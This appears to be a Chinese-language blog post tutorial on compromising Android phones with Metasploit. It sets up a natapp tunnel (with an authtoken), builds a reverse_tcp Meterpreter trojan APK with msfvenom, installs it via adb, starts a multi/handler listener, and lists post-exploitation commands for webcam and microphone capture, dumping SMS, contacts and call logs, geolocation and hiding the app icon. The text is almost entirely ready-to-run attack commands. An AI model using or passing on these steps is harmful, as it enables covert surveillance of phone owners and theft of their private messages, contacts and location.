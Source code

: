 ```yaml
---
title: Metasploit渗透Android
tags:
  - android安全
abbrlink: 2059191303
date: 2019-08-01 14:44:14
description: more
---
```


## 内网穿透
进入https://natapp.cn/  
注册并创建tcp隧道  
复制authtoken  
下载客户端  

```
解压缩
chmod a+x natapp
./natapp

natapp -authtoken=9ab6b9040a624f40

ping server.natappfree.cc 得到服务器ip和端口号
```
## Metesploit木马
mac查看本机ip-设置-网络  
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=本机ip LPORT=natapp端口号 R >test1.apk
```
```
adb install test1.apk
```

## 启动msf
```
msfconsole

msf> use exploit/multi/handler 加载模块

msf> set payload android/meterpreter/reverse_tcp	选择Payload

修改Ip和端口

Ip设置为natapp中配置的本机ip
msf> set LHOST 本机ip		

端口设置为natapp中配置的本地端口	
msf> set LPORT 端口号			

开始监听，等待木马相应
msf> exploit	  

```
## 常用命令
```
Stdapi: Webcam Commands
===================================
	webcam_list  列出网络摄像头
	record_mic [ˈrekərd]/记录/  从默认麦克风录制音频为X秒
	webcam_chat  开始视频聊天
	webcam_snap  从指定的摄像头获取快照
	webcam_stream -i 1  从指定的网络摄像头播放视频流[选择后摄像头]

Android Commands
=================
	activity_start  从URI字符串启动Android活动
	check_root  检查设备是否有根
	dump_calllog  获取调用日志
	dump_contacts  获取联系人列表
	dump_sms  获取短信
	geolocate  利用地理定位获取当前LAT
	wlan_geolocate  利用WLAN信息获取当前LAT
	hide_app_icon  从发射器隐藏应用程序图标
	interval_collect  管理区间收集能力
	send_sms  从目标会话发送短消息
	set_audio_mode 
	sqlite_query  从存储库查询SQLite数据库
	wakelock  启用/禁用Wakelock

```

## LINKS
[natapp](https://natapp.cn)  
[Metasploit之渗透Android手机](https://blog.csdn.net/Aaron_Miller/article/details/80375807)   
[使用Metasploit实现对Android的远程管理](https://www.cnblogs.com/Te7m/p/5938445.html)  
[如何手动将Metasploit的Payloads注入到Android应用中](https://www.freebuf.com/articles/network/138688.html)  